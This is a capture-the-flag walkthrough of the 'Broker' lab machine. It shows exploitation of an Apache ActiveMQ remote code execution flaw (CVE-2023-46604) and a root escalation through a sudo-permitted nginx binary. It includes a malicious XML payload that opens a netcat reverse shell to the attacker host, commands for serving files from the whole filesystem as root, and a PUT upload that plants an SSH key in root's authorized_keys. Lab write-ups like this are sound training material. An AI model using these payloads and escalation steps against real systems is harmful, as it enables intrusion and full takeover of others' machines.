



# Broker

We started the machine as always with an nmap scan:
```bash
nmap -sC -sV -p- --min-rate=3500 10.10.11.243
```
output:
```bash
PORT      STATE SERVICE    VERSION
22/tcp    open  ssh        OpenSSH 8.9p1 Ubuntu 3ubuntu0.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 3e:ea:45:4b:c5:d1:6d:6f:e2:d4:d1:3b:0a:3d:a9:4f (ECDSA)
|_  256 64:cc:75:de:4a:e6:a5:b4:73:eb:3f:1b:cf:b4:e3:94 (ED25519)
80/tcp    open  http       nginx 1.18.0 (Ubuntu)
|_http-title: Error 401 Unauthorized
| http-auth: 
| HTTP/1.1 401 Unauthorized\x0D
|_  basic realm=ActiveMQRealm
|_http-server-header: nginx/1.18.0 (Ubuntu)
1337/tcp  open  http       nginx 1.18.0 (Ubuntu)
| http-ls: Volume /
|   maxfiles limit reached (10)
| SIZE    TIME               FILENAME
| -       06-Nov-2023 01:10  bin/
| -       06-Nov-2023 01:10  bin/X11/
| 963     17-Feb-2020 14:11  bin/NF
| 129576  27-Oct-2023 11:38  bin/VGAuthService
| 51632   07-Feb-2022 16:03  bin/%5B
| 35344   19-Oct-2022 14:52  bin/aa-enabled
| 35344   19-Oct-2022 14:52  bin/aa-exec
| 31248   19-Oct-2022 14:52  bin/aa-features-abi
| 14478   04-May-2023 11:14  bin/add-apt-repository
| 14712   21-Feb-2022 01:49  bin/addpart
|_
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: Index of /
1883/tcp  open  mqtt
| mqtt-subscribe: 
|   Topics and their most recent payloads: 
|     ActiveMQ/Advisory/MasterBroker: 
|_    ActiveMQ/Advisory/Consumer/Topic/#: 
5672/tcp  open  amqp?
|_amqp-info: ERROR: AQMP:handshake expected header (1) frame, but was 65
| fingerprint-strings: 
|   DNSStatusRequestTCP, DNSVersionBindReqTCP, GetRequest, HTTPOptions, RPCCheck, RTSPRequest, SSLSessionReq, TerminalServerCookie: 
|     AMQP
|     AMQP
|     amqp:decode-error
|_    7Connection from client using unsupported AMQP attempted
8040/tcp  open  http       nginx 1.18.0 (Ubuntu)
|_http-title: 403 Forbidden
|_http-server-header: nginx/1.18.0 (Ubuntu)
8080/tcp  open  http       nginx 1.18.0 (Ubuntu)
|_http-title: 403 Forbidden
|_http-server-header: nginx/1.18.0 (Ubuntu)
8081/tcp  open  http       nginx 1.18.0 (Ubuntu)
|_http-title: 403 Forbidden
|_http-server-header: nginx/1.18.0 (Ubuntu)
8161/tcp  open  http       Jetty 9.4.39.v20210325
| http-auth: 
| HTTP/1.1 401 Unauthorized\x0D
|_  basic realm=ActiveMQRealm
|_http-server-header: Jetty(9.4.39.v20210325)
|_http-title: Error 401 Unauthorized
38431/tcp open  tcpwrapped
61613/tcp open  stomp      Apache ActiveMQ
| fingerprint-strings: 
|   HELP4STOMP: 
|     ERROR
|     content-type:text/plain
|     message:Unknown STOMP action: HELP
|     org.apache.activemq.transport.stomp.ProtocolException: Unknown STOMP action: HELP
|     org.apache.activemq.transport.stomp.ProtocolConverter.onStompCommand(ProtocolConverter.java:258)
|     org.apache.activemq.transport.stomp.StompTransportFilter.onCommand(StompTransportFilter.java:85)
|     org.apache.activemq.transport.TransportSupport.doConsume(TransportSupport.java:83)
|     org.apache.activemq.transport.tcp.TcpTransport.doRun(TcpTransport.java:233)
|     org.apache.activemq.transport.tcp.TcpTransport.run(TcpTransport.java:215)
|_    java.lang.Thread.run(Thread.java:750)
61614/tcp open  http       Jetty 9.4.39.v20210325
|_http-server-header: Jetty(9.4.39.v20210325)
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-title: Site doesn\'t have a title.
61616/tcp open  apachemq   ActiveMQ OpenWire transport
| fingerprint-strings: 
|   NULL: 
|     ActiveMQ
|     TcpNoDelayEnabled
|     SizePrefixDisabled
|     CacheSize
|     ProviderName 
|     ActiveMQ
|     StackTraceEnabled
|     PlatformDetails 
|     Java
|     CacheEnabled
|     TightEncodingEnabled
|     MaxFrameSize
|     MaxInactivityDuration
|     MaxInactivityDurationInitalDelay
|     ProviderVersion 
|_    5.15.15
3 services unrecognized despite returning data. If you know the service/version, please submit the following fingerprints at https://nmap.org/cgi-bin/submit.cgi?new-service :
==============NEXT SERVICE FINGERPRINT (SUBMIT INDIVIDUALLY)==============
SF-Port5672-TCP:V=7.94SVN%I=7%D=11/15%Time=65549F5B%P=x86_64-pc-linux-gnu%
SF:r(GetRequest,89,"AMQP\x03\x01\0\0AMQP\0\x01\0\0\0\0\0\x19\x02\0\0\0\0S\
SF:x10\xc0\x0c\x04\xa1\0@p\0\x02\0\0`\x7f\xff\0\0\0`\x02\0\0\0\0S\x18\xc0S
SF:\x01\0S\x1d\xc0M\x02\xa3\x11amqp:decode-error\xa17Connection\x20from\x2
SF:0client\x20using\x20unsupported\x20AMQP\x20attempted")%r(HTTPOptions,89
SF:,"AMQP\x03\x01\0\0AMQP\0\x01\0\0\0\0\0\x19\x02\0\0\0\0S\x10\xc0\x0c\x04
SF:\xa1\0@p\0\x02\0\0`\x7f\xff\0\0\0`\x02\0\0\0\0S\x18\xc0S\x01\0S\x1d\xc0
SF:M\x02\xa3\x11amqp:decode-error\xa17Connection\x20from\x20client\x20usin
SF:g\x20unsupported\x20AMQP\x20attempted")%r(RTSPRequest,89,"AMQP\x03\x01\
SF:0\0AMQP\0\x01\0\0\0\0\0\x19\x02\0\0\0\0S\x10\xc0\x0c\x04\xa1\0@p\0\x02\
SF:0\0`\x7f\xff\0\0\0`\x02\0\0\0\0S\x18\xc0S\x01\0S\x1d\xc0M\x02\xa3\x11am
SF:qp:decode-error\xa17Connection\x20from\x20client\x20using\x20unsupporte
SF:d\x20AMQP\x20attempted")%r(RPCCheck,89,"AMQP\x03\x01\0\0AMQP\0\x01\0\0\
SF:0\0\0\x19\x02\0\0\0\0S\x10\xc0\x0c\x04\xa1\0@p\0\x02\0\0`\x7f\xff\0\0\0
SF:`\x02\0\0\0\0S\x18\xc0S\x01\0S\x1d\xc0M\x02\xa3\x11amqp:decode-error\xa
SF:17Connection\x20from\x20client\x20using\x20unsupported\x20AMQP\x20attem
SF:pted")%r(DNSVersionBindReqTCP,89,"AMQP\x03\x01\0\0AMQP\0\x01\0\0\0\0\0\
SF:x19\x02\0\0\0\0S\x10\xc0\x0c\x04\xa1\0@p\0\x02\0\0`\x7f\xff\0\0\0`\x02\
SF:0\0\0\0S\x18\xc0S\x01\0S\x1d\xc0M\x02\xa3\x11amqp:decode-error\xa17Conn
SF:ection\x20from\x20client\x20using\x20unsupported\x20AMQP\x20attempted")
SF:%r(DNSStatusRequestTCP,89,"AMQP\x03\x01\0\0AMQP\0\x01\0\0\0\0\0\x19\x02
SF:\0\0\0\0S\x10\xc0\x0c\x04\xa1\0@p\0\x02\0\0`\x7f\xff\0\0\0`\x02\0\0\0\0
SF:S\x18\xc0S\x01\0S\x1d\xc0M\x02\xa3\x11amqp:decode-error\xa17Connection\
SF:x20from\x20client\x20using\x20unsupported\x20AMQP\x20attempted")%r(SSLS
SF:essionReq,89,"AMQP\x03\x01\0\0AMQP\0\x01\0\0\0\0\0\x19\x02\0\0\0\0S\x10
SF:\xc0\x0c\x04\xa1\0@p\0\x02\0\0`\x7f\xff\0\0\0`\x02\0\0\0\0S\x18\xc0S\x0
SF:1\0S\x1d\xc0M\x02\xa3\x11amqp:decode-error\xa17Connection\x20from\x20cl
SF:ient\x20using\x20unsupported\x20AMQP\x20attempted")%r(TerminalServerCoo
SF:kie,89,"AMQP\x03\x01\0\0AMQP\0\x01\0\0\0\0\0\x19\x02\0\0\0\0S\x10\xc0\x
SF:0c\x04\xa1\0@p\0\x02\0\0`\x7f\xff\0\0\0`\x02\0\0\0\0S\x18\xc0S\x01\0S\x
SF:1d\xc0M\x02\xa3\x11amqp:decode-error\xa17Connection\x20from\x20client\x
SF:20using\x20unsupported\x20AMQP\x20attempted");
==============NEXT SERVICE FINGERPRINT (SUBMIT INDIVIDUALLY)==============
SF-Port61613-TCP:V=7.94SVN%I=7%D=11/15%Time=65549F55%P=x86_64-pc-linux-gnu
SF:%r(HELP4STOMP,27F,"ERROR\ncontent-type:text/plain\nmessage:Unknown\x20S
SF:TOMP\x20action:\x20HELP\n\norg\.apache\.activemq\.transport\.stomp\.Pro
SF:tocolException:\x20Unknown\x20STOMP\x20action:\x20HELP\n\tat\x20org\.ap
SF:ache\.activemq\.transport\.stomp\.ProtocolConverter\.onStompCommand\(Pr
SF:otocolConverter\.java:258\)\n\tat\x20org\.apache\.activemq\.transport\.
SF:stomp\.StompTransportFilter\.onCommand\(StompTransportFilter\.java:85\)
SF:\n\tat\x20org\.apache\.activemq\.transport\.TransportSupport\.doConsume
SF:\(TransportSupport\.java:83\)\n\tat\x20org\.apache\.activemq\.transport
SF:\.tcp\.TcpTransport\.doRun\(TcpTransport\.java:233\)\n\tat\x20org\.apac
SF:he\.activemq\.transport\.tcp\.TcpTransport\.run\(TcpTransport\.java:215
SF:\)\n\tat\x20java\.lang\.Thread\.run\(Thread\.java:750\)\n\0\n");
==============NEXT SERVICE FINGERPRINT (SUBMIT INDIVIDUALLY)==============
SF-Port61616-TCP:V=7.94SVN%I=7%D=11/15%Time=65549F55%P=x86_64-pc-linux-gnu
SF:%r(NULL,140,"\0\0\x01<\x01ActiveMQ\0\0\0\x0c\x01\0\0\x01\*\0\0\0\x0c\0\
SF:x11TcpNoDelayEnabled\x01\x01\0\x12SizePrefixDisabled\x01\0\0\tCacheSize
SF:\x05\0\0\x04\0\0\x0cProviderName\t\0\x08ActiveMQ\0\x11StackTraceEnabled
SF:\x01\x01\0\x0fPlatformDetails\t\0\x04Java\0\x0cCacheEnabled\x01\x01\0\x
SF:14TightEncodingEnabled\x01\x01\0\x0cMaxFrameSize\x06\0\0\0\0\x06@\0\0\0
SF:\x15MaxInactivityDuration\x06\0\0\0\0\0\0u0\0\x20MaxInactivityDurationI
SF:nitalDelay\x06\0\0\0\0\0\0'\x10\0\x0fProviderVersion\t\0\x075\.15\.15");
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
We have a bunch of ports open, so i started googling them.

# User

by googling the ports 61613 61616 (also sudgested by nmap) we can see that the service running is Apache ActiveMQ<br>
recently a new CVE came out talking aout this service, maybe is that...<br>
So by googling `Apache ActiveMQ CVE` we can find this [article](https://socradar.io/critical-rce-vulnerability-in-apache-activemq-is-targeted-by-hellokitty-ransomware-cve-2023-46604/#:~:text=Is%20There%20a%20Proof%2Dof,the%20PoC%20exploit%20on%20GitHub.) This CVE take advantage of a xml request, so by crafting a particular payload we can leverage a server request to us serving a localserver with a maliciuous .xml file that can lead us to RCE.<br>
To ru the exploit i downloaded the GoLang exploit from [this GitHub repo](https://github.com/X1r0z/ActiveMQ-RCE).
then u need to edit the poc.xml file with your revshell:
```xml
<?xml version="1.0" encoding="UTF-8" ?>
    <beans xmlns="http://www.springframework.org/schema/beans"
       xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
       xsi:schemaLocation="
     http://www.springframework.org/schema/beans http://www.springframework.org/schema/beans/spring-beans.xsd">
        <bean id="pb" class="java.lang.ProcessBuilder" init-method="start">
            <constructor-arg>
            <list>
                <value>bash</value>
                <value>-c</value>
                <value>busybox nc 10.10.16.46 4444 -e /bin/bash #you can put your revshell</value>
            </list>
            </constructor-arg>
        </bean>
    </beans>
```
Now that we have our payload we need to start a python server and run the exploit:
```bash
python3 -m http.server 80
go run main.go -i 10.10.11.243 -u http://10.10.16.46/poc.xml
```
We have our callback!!
	

	

# Root

Once we are in the machine i runned the basic commands for privesc before running linepeas and so on..
```bash
sudo -l
```
output:
```bash
Matching Defaults entries for activemq on broker:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User activemq may run the following commands on broker:
    (ALL : ALL) NOPASSWD: /usr/sbin/nginx
```
That is interesting!<br>
We can run a nginx server as root.<br>
Now there are a bunc of ways to continue, in fact we can have an lfi where we can get every file from the file system or we can get code execution but take just a few step more. I showcase both of the path:

# Lfi

in both path we need to create a config file for our server to run.<br>
I did so in a /tmp directory because we don't have permissions over the /etc/nginx config folder and the file can also be located elsewhere.<br>
This is the config file that i created, to create the file you can visit [this website](https://www.plesk.com/blog/various/nginx-configuration-guide/):
```bash
cat /tmp/myrootwebserver.conf
```
output:
```bash
user root;
worker_processes 3;

events {
    worker_connections 1024;
}

http {
    server {
        listen 7331;
        root /;
        autoindex on;
    }
}
```
now to start our server from a particular config file we can run:
```bash
sudo /usr/sbin/nginx -c /tmp/myrootwebserver.conf
```
now we just need to curl the file we want on the remote machine using:
```bash
curl http://127.0.0.1:7331/root/root.txt
```

# RCE

By doing so we had access to the entire system but we couldn't execute any code. if we want to do so we just need to slightly
modify our config file to make it do something different.<br>
In fact instead of downloading files from the filesystem we can upload an RSA public key on the root .ssh folder so we can login with our private key<br>
First we need to create a ssh key pair on our local machine:
```bash
ssh-keygen
```
output:
	

	
I already created them so i just replaced the existing ones.<br>
Now if we hit ls we can see that 2 new files are created:
```bash
ls -la
```
ouput:
```bash
-rw-------  1 kali kali 2590 15 nov 12.13 id_rsa
-rw-r--r--  1 kali kali  563 15 nov 12.13 id_rsa.pub
```
now we need to restart our python server (if is not already running):
```bash
python3 -m http.server 80
```
We can now nìmove to remote machine and setup the exploit:
```bash
cd /tmp/
wget http://10.10.16.46/id_rsa.pub
```
To upload the file to /root/.ssh/ we need to change an option on the nginx config file:
```bash
cat myrootwebserver.conf
```
output:
```xml
user root;
worker_processes 3;

events {
    worker_connections 1024;
}

http {
    server {
        listen 7332;
        root /;
        autoindex on;
        dav_methods PUT;
    }
}
```
by adding the `dav_methods PUT;` line we added a file upload functionality to the server using HTTP PUT method.<br>
to upload the key in the root ssh directory we can start the server on a different port (i used 7332 instead of 7331):
```bash
sudo /usr/sbin/nginx -c /tmp/myrootwebserver.conf
```
we just need to upload the key that we downloaded via curl:
```bash
curl -X PUT http://127.0.0.1:7332/root/.ssh/authorized_keys -d "$(cat id_rsa.pub)"
```
We uploaded our public key, that means we can login via ssh using our private one (on local machine):
```bash
ssh -i id_rsa root@10.10.11.243
```
We are finally root:
	

	
